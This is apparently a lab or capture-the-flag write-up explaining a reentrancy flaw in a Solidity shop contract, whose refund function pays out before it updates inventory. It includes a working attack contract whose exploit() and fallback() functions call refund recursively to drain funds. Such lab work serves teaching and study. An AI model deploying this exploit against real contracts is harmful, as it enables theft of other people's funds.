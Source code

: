 the function then refunds is the amount but it doesn't remove the actual item we refunded just yet, that's important

then in the next line we remove the item we refunded from our inventory

to exploit this we look at how `msg.sender.call.value` works: when we call this function, we call another function in the receiving party namely the `receive` function, and if that function doesn't exist, the `fallback` function we can exploit this by recursively calling refund again in the `fallback` function
this creates a chain like this
`refund -> fallback -> refund -> fallback -> refund -> fallback -> refund -> fallback -> ...` with each iteration giving you more and more money

so now it was time to create the attacking script: `Attack.sol`

This was used as a reference: `https://seedsecuritylabs.org/Labs_20.04/Files/Reentrancy_Attack/Reentrancy_Attack.pdf`

in this script i opted to use an interface over importing the whole Shop.sol file as this is generally considered better programming 

this interface only included the function that was going to be used: `refund`
and looks like this
```
interface Shop {
    function refund(uint item, uint quantity) external payable;
}
```
very simple

then we create the `attack` contract and create a constructor that stores a reference to the Shop given as an argument to the constructor
```
contract attack {
    Shop public shop;
    uint public target = 0;

    // initialize the contract with the address of the Shop contract
    constructor(address payable addr) public {
        shop = Shop(addr);
    }
```

we then initiate the attack in the `exploit` function, all it does is refund the item
and we also create the fallback function to create the recursive loop which also only refunds the item
```
// start the exploit by calling the refund function of the Shop contract for reentrancy attack
    function exploit() public payable {
        shop.refund(target, 1);
    }

 // fallback function
    fallback() external payable {
        shop.refund(target, 1);
    }
```
